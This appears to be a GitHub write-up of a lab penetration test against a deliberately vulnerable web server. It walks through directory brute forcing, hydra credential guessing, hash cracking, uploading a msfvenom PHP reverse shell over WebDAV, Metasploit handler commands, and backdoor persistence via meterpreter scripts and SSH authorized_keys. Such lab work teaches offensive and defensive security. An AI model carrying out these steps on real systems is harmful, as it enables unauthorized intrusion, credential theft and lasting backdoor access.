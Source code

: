 ## Penetration Test Engagement in a Virtualized Environment

There are several steps involved with penetrating a network: Planning and Reconnaissance, Scanning, Exploitation, Post Exploitation, and Reporting. Once the network has been exploited there are a number of ways an attacker can abuse a system including stealing sensitive data, modifying data on the network, compromising the availability of data for a ransom and leaving a backdoor for perpetual access.

![RedTeam_NetworkDiagram](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/network_topology.JPG)

This document contains the following details:
- Description of the Topology
- Vulnerability Assessment
- Exploitation
- Post-Exploitation

### Description of Topology

In this lab, there were several machines on the network to be tested. A Windows VM which contained Hyper-V Manager served as the gateway to other nested VMs on the same network. A machine called Capstone served as a vulnerable Web server. Another VM on the network was an ELK server which is used to capture log data from the Capstone Machine. This data is then presented using the Kibana platform. This platform is useful for parsing logs, creating visual representations of data, and creating alerts. Lastly, for this engagement the actual attacking machine - Kali - was on the network itself as well. The Capstone VM is the proposed target for this engagement. The goal of infiltrating the Capstone machine was to set up a reverse shell in which the Kali attack machine could remotely access the system. The sole target that was infiltrated was the Capstone VM.

The configuration details of each machine may be found below.

| Hostname | Function       | IP Address               | Operating System |
|----------|----------------|--------------------------|------------------|
| Gateway  | Gateway        | 192.168.1.1              | Windows 10 Pro   |
| Kali     | Attack Machine | 192.168.1.90             | Linux            |
| ELK      | ELK Log Server | 192.168.1.100            | Linux            |
| CAPSTONE | Target Machine | 192.168.1.105            | Linux            |

### Vulnerability Assessment

The assessment uncovered the following critical vulnerabiliies in the target:

- Public Facing Sensitive Data: Files alluding to the existence of a secret folder within the web server
  - Impact: Gives attackers incentive to probe for more sensitive data
- Brute Force Attack and Hash cracking: Attackers can use programs to guess login credentials or decrypt password hashes to gain credentials
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server
- Web Misconfiguration: Security Controls are not in place to restrict who can upload files to the web server
  - Impact: Attackers can upload and plant malware to later be used on the server
- Local File Inclusion (LFI): Attackers can execute the planted malware file to potentially gain a reverse shell on the web server
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server       

### Recon

- Vulnerabilities were identified in the target by first site mapping the web server using a simple Firefox Browser and a Kali Linux tool called dirbuster. 
- Dirbuster is a java application designed to brute force directories on web applications and web servers. Performing this recon revealed an important URL on the server:"/webdav".

![dirbScan](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/dirbScan.JPG)

- Further "site-walking" was conducted by browsing directories in the web browser manually. 
- Through a public-facing sensitive data vulnerability, it was discovered that a secret directory hidden within the web server existed and was only accessible by employees.

![secretFolder](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/secretFolder.JPG)

### Exploitation

- After gathering useful information through recon, the findings prompted the idea of brute forcing employee credentials using the employees listed in the site’s “Meet Our Team” page. 
- The intention was to find credentials to access this secret folder. 
- This brute force attack was successfully executed using the Kali Linux tool “hydra” to obtain the credentials of employee Ashton.

![hydra](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/hydra.JPG)

- The discovered credentials were then used to log into the secret folder directory

![secretFolderLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderLogin.JPG) 

- The contents of the secret folder revealed a file called "connect_to_corp_server"

![secretFolder_Dir](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderDirContents.JPG) . 

- The next exploit was discovered in a file within the secret folder called "connect_to_corp_server". 
- This file contained the hash of the CEO’s (Ryan) password and instructions on how to access another hidden directory within the server called “webdav”. 
- The contents are displayed below: 
  - Note the network file share address is incorrect here. It should include the IP of our victim machine i.e. dav://192.168.1.105/webdav/  

![webDavInstructions](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavInstructions.JPG) 

- Ryan's hashed password was copied and input into an online tool called Crack Station. 
- The site uses rainbow tables to compare the input hash to precomputed hashes to "crack" the password. 
- This hash was successfully cracked and privileges were escalated further to the CEO's account. 

![crackstation](![CrackStationPassword](https://user-images.githubusercontent.com/94092268/185767062-adf60e79-6909-4b18-ab6b-170e1abd8066.JPG) 

- A login screen was prompted for credentials

![webDavLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavLogin.JPG) 

- Next, a payload was constructed using msfvenom to create the reverse shell php script to be exploited on the target. 

![msfvenomPayload](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfvenomPayload.JPG) 

- With the high-level access acquired from Ryan's credentials, a php script was uploaded to the web server to initiate the first step in establishing a reverse shell between the Capstone Server and the Kali attacking machine. 
- This is exploitation of the web misconfiguration

> - Click Folder at top of desktop, Click in search bar and type in network file share folder
> - dav://192.168.1.105/webdav/ , then enter ryan's credentials
> - Drag and drop reverse_shell.php file into network file share 

- The ability to upload a .php script is a web misconfiguration vulnerability that was exploited. 
- A general coding best practice is to never allow uploading to a web server unless that is apart of the web application's functionality to the client. 
- If uploading is necessary, uploaded data should undergo scrutiny before being allowed on the web server to ensure the data does not contain malware. 

![uploadShellScript](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/UploadShellScript.jpg)

- Finally, a Local File Inclusion (LFI) vulnerability in the web server ensured the success of the reverse shell exploit. 
- Local File Inclusion vulnerabilities work by allowing an uploaded file or script to be executed on the server. 
- In this case, once the code is executed, it sends a meterpreter shell directly back to the attacking machine. 
- This was accomplished using Metasploit to turn on a listening port waiting for us to execute the newly uploaded php script on the target machine
> - msfconsole
> - use exploit/multi/handler
> - set payload php/meterpreter/reverse_tcp
> - set lhost 192.168.1.90
> - set lport 80
> - show options
> - exploit

- This code forces the target machine to send us a meterpreter shell connection. 

![msfsetup](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfsetup.JPG)

- Now we execute the script on the victim machine by typing the file path in the folder explorer search bar
> - dav://192.168.1.105/webdav/reverse_shell.php 

![meterpreterShell](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/meterpreterShell.JPG) 

- Once inside, a more stable shell was first established using the command “shell” in the Meterpreter session. 
- Basic linux commands like “cd” and “find” were utilized to search for files containing the word “flag” in the title.

![flagComplete](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/flagComplete.JPG)

### Post Exploitation

There are several ways to reconnect to the target. First, if no backdoor has been established, an attacker would have to exploit the target again using the same steps as before - this is why it is imperative to document every step of the engagement in the event you must recreate a scenario. Creating backdoors is another way to reconnect to a target after being disconnected. This can be accomplished through many methods and it differs based on the OS of the target machine. 

In the case of the Meterpreter session, meterpreter has a script called “persistence.rb” to maintain an open backdoor even if the target system is rebooted. In the meterpreter command line prompt run the command “ run persistence -h”. It is important to note that this method requires no authentication so anyone with access to the port used for the exploit can access the machine. This is not ideal for the purposes of penetration testing unless it is done on a network that is not public-facing. 

Another technique to create a backdoor once inside of the Capstone VM is to use SSH keys; note this service was shown to be running on Port 22 in the nmap service scan so it can be used, however this would not work where this service is not enabled. Simply add your public SSH key into the “~/.ssh/authorized_keys” file to allow for remotely connecting via SSH. 
